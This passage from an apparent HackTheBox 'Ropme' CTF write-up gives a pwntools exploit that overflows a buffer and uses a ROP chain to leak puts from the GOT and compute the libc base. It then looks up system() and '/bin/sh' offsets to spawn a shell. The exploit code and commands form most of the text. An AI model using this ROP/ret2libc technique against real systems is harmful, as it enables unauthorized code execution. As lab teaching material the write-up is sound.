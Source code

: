 ```python
plt_puts = p64(0x4004e0)
plt_main = p64(0x4004f0)


payload = b"A" * 72
payload += pop_rdi
payload += got_puts
payload += plt_puts
payload += plt_main

p.recvuntil("ROP me outside, how 'about dah?")
p.sendline(payload)

p.recvuntil("\n")

leaked_puts = p.recvline()[:8].strip().ljust(8, b'\x00')
leaked_puts = u64(leaked_puts)
log.success("Leaked puts@GLIBC_2.2.5: " + hex(leaked_puts))

libc_puts = 0x0765f0

libc = leaked_puts - libc_puts
log.success("Base address of GLIBC_2.2.5: " + hex(libc))

p.interactive()
```
                                                           


After running the exploit we should see the address of libc. 

![7](/HackTheBox-Pwn-Ropme/7.png)

We can see that the address of libc and puts was correct using vmmap at runtime.

![8](/HackTheBox-Pwn-Ropme/8.png)


## Exploit 4

Now all that is left to do is call `system()` with the `/bin/sh` argument, which will go inside `RDI`.

We need to find the address of `/bin/sh` and `system()` in LIBC.

```
$ readelf -s /usr/lib/x86_64-linux-gnu/libc.so.6 | grep system
  1430: 0000000000048e50    45 FUNC    WEAK   DEFAULT   14 system@@GLIBC_2.2.5
```

```
$ strings -a -t x /usr/lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
 18a152 /bin/sh
```
